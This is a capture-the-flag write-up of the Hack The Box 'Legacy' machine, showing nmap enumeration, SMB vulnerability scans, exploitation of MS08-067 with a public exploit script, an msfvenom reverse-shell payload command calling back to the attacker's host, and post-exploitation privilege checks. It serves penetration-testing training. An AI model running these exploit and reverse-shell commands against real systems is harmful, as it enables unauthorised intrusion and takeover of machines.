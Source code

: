 Title: HTB Legacy box writeup
Tags: oscp, htb, ms08-67, kido, smb
Summary: Quite short walkthrough for this little box
Date: 31/08/2020 15:30
Status: published

Starting series of writeups for a list of machines compiled by TJNull in his well-known 
[blog post](https://www.netsecfocus.com/oscp/2019/03/29/The_Journey_to_Try_Harder-_TJNulls_Preparation_Guide_for_PWK_OSCP.html#vulnerable-machines).

# Enumeration
Let's dig into this box. We are not restricted with traffic amount or something like that, so I just spinned up the full nmap scan with `-sS`:
```text
    # Nmap 7.80 scan initiated Wed Aug 26 12:28:33 2020 as: nmap -sS -p- -oA nmap/nmap-ss-all 10.10.10.4
    Nmap scan report for legacy.htb (10.10.10.4)
    Host is up (0.12s latency).
    Not shown: 65532 filtered ports
    PORT     STATE  SERVICE
    139/tcp  open   netbios-ssn
    445/tcp  open   microsoft-ds
    3389/tcp closed ms-wbt-server

    # Nmap done at Wed Aug 26 12:31:39 2020 -- 1 IP address (1 host up) scanned in 186.30 seconds
```
Unfortunately, SMB server does not allow anonymous logon since `smbclient -N -L \\\\10.10.10.4\\` fails.
Not much ports open there, seems to be only SMB server available at the time. Let's try to dig some more with `-A` and `-sV` on discovered ports:
```text
    # Nmap 7.80 scan initiated Wed Aug 26 12:35:32 2020 as: nmap -A -T4 -sV -O -p139,445 -oA nmap/nmap-AT4sVO-open 10.10.10.4
    Nmap scan report for legacy.htb (10.10.10.4)
    Host is up (0.18s latency).

    PORT    STATE SERVICE      VERSION
    139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
    445/tcp open  microsoft-ds Windows XP microsoft-ds
    Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
    Device type: general purpose
    Running (JUST GUESSING): Microsoft Windows 2000|XP|2003 (90%)
    OS CPE: cpe:/o:microsoft:windows_2000::sp4 cpe:/o:microsoft:windows_xp::sp2 cpe:/o:microsoft:windows_xp::sp3 
    cpe:/o:microsoft:windows_server_2003 
    Aggressive OS guesses: Microsoft Windows 2000 SP4 or Windows XP SP2 or SP3 (90%), 
    Microsoft Windows XP SP2 or Windows Small Business Server 2003 (90%), Microsoft Windows XP SP2 (89%), 
    Microsoft Windows Server 2003 (87%), Microsoft Windows XP SP2 or SP3 (87%), Microsoft Windows XP SP3 (87%), 
    Microsoft Windows 2000 SP4 (86%), Microsoft Windows XP Professional SP2 (86%), Microsoft Windows XP Professional SP3 (86%), 
    Microsoft Windows XP SP2 or Windows Server 2003 (86%)
    No exact OS matches for host (test conditions non-ideal).
    Network Distance: 2 hops
    Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

    Host script results:
    |_clock-skew: mean: -4h27m15s, deviation: 2h07m16s, median: -5h57m15s
    |_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:3d:03 (VMware)
    | smb-os-discovery: 
    |   OS: Windows XP (Windows 2000 LAN Manager)
    |   OS CPE: cpe:/o:microsoft:windows_xp::-
    |   Computer name: legacy
    |   NetBIOS computer name: LEGACY\x00
    |   Workgroup: HTB\x00
    |_  System time: 2020-08-26T12:38:29+03:00
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    |_smb2-time: Protocol negotiation failed (SMB2)

    TRACEROUTE (using port 139/tcp)
    HOP RTT       ADDRESS
    1   120.17 ms 10.10.14.1
    2   290.33 ms legacy.htb (10.10.10.4)

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Wed Aug 26 12:36:36 2020 -- 1 IP address (1 host up) scanned in 63.88 seconds
```
Well it's really seems to be _legacy_ since nmap suggests that this box running Windows XP. Though these results may not be accurate, `smb-os-discovery` also
suggests so, I'll take a mental note about this - it might be vulnerable to some antediluvian vulnerabilities.  
Nmap has some more interesting scripts for SMB, worth trying to scan using them:
```text
    # Nmap 7.80 scan initiated Wed Aug 26 12:49:00 2020 as: nmap -p445,139 --script=smb-vuln* -oA nmap/smb-vuln-mass 10.10.10.4
    Nmap scan report for legacy.htb (10.10.10.4)
    Host is up (0.12s latency).

    PORT    STATE SERVICE
    139/tcp open  netbios-ssn
    445/tcp open  microsoft-ds

    Host script results:
    | smb-vuln-ms08-067: 
    |   VULNERABLE:
    |   Microsoft Windows system vulnerable to remote code execution (MS08-067)
    |     State: LIKELY VULNERABLE
    |     IDs:  CVE:CVE-2008-4250
    |           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
    |           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
    |           code via a crafted RPC request that triggers the overflow during path canonicalization.
    |           
    |     Disclosure date: 2008-10-23
    |     References:
    |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
    |_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
    |_smb-vuln-ms10-054: false
    |_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
    | smb-vuln-ms17-010: 
    |   VULNERABLE:
    |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
    |     State: VULNERABLE
    |     IDs:  CVE:CVE-2017-0143
    |     Risk factor: HIGH
    |       A critical remote code execution vulnerability exists in Microsoft SMBv1
    |        servers (ms17-010).
    |           
    |     Disclosure date: 2017-03-14
    |     References:
    |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
    |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
    |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

    # Nmap done at Wed Aug 26 12:49:07 2020 -- 1 IP address (1 host up) scanned in 7.25 seconds
```
Gotcha! Notice that it's 'likely vulnerable' to CVE-2008-4250 (MS08-067). Pretty old vulnerability, this looks consonant
with box name. 

# Exploitation
There is some exploit code for MS08-67 in [github](https://github.com/andyacer/ms08_067.git). Looks neat, without pranks or `rm -rf` stuff within.
I've just generated payload with `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.8 LPORT=53 EXITFUNC=thread -f c -o shell.c -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40"`
and put that shellcode instead of the one that was in the script already. Initially I forgot to set badchars and it was not working for that reason, but
eventually I read the exploit script and notices some examples. Lesson learned - do not hurry! I must have thought that this exploit is broken or something
if I didn't read carefully.  
Exploit script had multiple choices for targets, I decided to start from end and used `./ms08_067_2018.py 10.10.10.4 7 445` - bullseye! Shell popped out on my 
`multi/handler` running.

# Post-exploitation
As per `systeminfo` this box is indeed running Windows XP SP3. Unfortunately it doesn't have `whoami` in the command line shell and `echo %USERNAME%` didn't work
for some reason (emitted nothing). So I had to determine current user by indirect methods. First, I suggest that since SMB server service got exploited, it's likely
a SYSTEM shell. Two little commands to prove that hypothesis. Who wants to go directly for the root flag? That's boring :)  
First command is `set`, which will show us some current envars:

![set output](/cstatic/htb-legacy/set.png)

Take a look at `USERPROFILE` envar - it shows us a special folder.

Second command is `reg query "HKU\S-1-5-19"` which tries to query some keys that only administrator could get.

![reg query output](/cstatic/htb-legacy/hku.png)

We indeed having at least administrative rights on this box. Safe to go ahead and grab root flag:

![root flag](/cstatic/htb-legacy/flag.png)
